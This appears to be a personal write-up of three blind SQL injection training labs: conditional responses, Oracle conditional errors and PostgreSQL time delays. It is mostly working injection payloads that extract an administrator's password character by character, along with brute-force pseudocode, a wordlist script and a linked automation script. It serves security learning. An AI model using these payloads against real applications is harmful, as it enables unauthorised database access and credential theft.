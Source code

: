 # Blind SQL injection

Blind sql injection arises when an application vulnerable to SQL injection without returning the relevant result from SQL query.

## Lab #1: Blind SQL injection with conditional responses


Example SQL query:
```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
``` 
Example injected SQL query with `' AND '1'='1`:

```

SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4[' AND '1'='1]'
```

Steps:
1. Identify page length with and without "Welcome back!" message

```
' AND '1'='1
' AND '1'='2 
```
3. Determine password length

```
' AND (SELECT 'a' FROM users WHERE username = 'administrator' AND LENGTH(password) > 8) = 'a
' AND (SELECT 'a' FROM users WHERE username = 'administrator' AND LENGTH(password) < 21) = 'a
```

5. Extract the password

```
' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'),1,1) = 'a
```

Pseudo:
```
index = 1 
while True:
	for char in chars:
	cookies = {
		"TrackingId" : "' AND SUBSTRING((SELECT password FROM users WHERE
		username 'administrator'),{index},1) = '{char}'"
	}
	resp = requests.get(url, cookies)
	if resp contains "welcome":
		password += char
		index += 1
		
```
Automated script in the scripts folder.

## Lab #2: Blind SQL injection with conditional errors

Steps:
1. Determine the database version

```
TrackingId=abc' ORDER BY 1 --
TrackingId=abc' UNION SELECT banner FROM v$version --
```

2. Although there's no difference in query result beside internal error which means injection failed, I will keep the whole TrackingId for consistency.

Returns no error:
```
TrackingId=abc' AND (SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a 
```

Returns error:
```
TrackingId=abc' AND (SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a

' AND (SELECT CASE WHEN (SUBSTR('administrator',1,1)='b') THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a
```

3. This third step just me figuring out how the oracle query works.
```
# return errors
# means it's false, password not started with A.
' AND (SELECT CASE WHEN (SUBSTR((SELECT password FROM users where username='administrator'),1,1)='A') THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a
```

4. Determine password length
```
Returns error (TRUE that password length is lower than 21):
' AND (SELECT CASE WHEN ((SELECT LENGTH(password) FROM users WHERE username='administrator') < 21) THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a

Returns error (TRUE that password length is greater than 8):
' AND (SELECT CASE WHEN (LENGTH(SELECT password FROM users WHERE username='Administrator') > 8) THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a
```

5. Brute force.

```
' AND (SELECT CASE WHEN (SUBSTR((SELECT password FROM users WHERE username='administrator'),§P1§,1) = '§P2§') THEN to_char(1/0) ELSE 'a' END FROM dual) = 'a
```

**With Burpsuite Intruder:**

P1 = Index = 1-21  
P2 = Chars = 0-9+a-z+A-Z

Create wordlist using python

```python
import string

p1=list(range(1,21)) # [1,2,3...,19, 20]
p2=string.digits+string.ascii_letters # [012..abc..XYZ]

# Payload for p1
for i in range p1:
	print(i)

for c in range p2:
	print(c)
```

Paste wordlist to Burpsuite intruder, use P1 in payload 1, P2 in payload 2.

**Using my multithread script (took less than 5 minutes):**

 https://gist.github.com/fahmifj/13d055117f729a233a8f4ccbefdb1680

## Lab #3: Blind SQL injection with time delays

Assume the query is:

```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

Since it's a blind sql, using Payload list is my first option

```
' AND 5=(SELECT 5 FROM PG_SLEEP(10))
``` 

And here is the lab solution using string concatenation.

```
'||pg_sleep(10) --
```

Interesting..

Reference
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-time-based
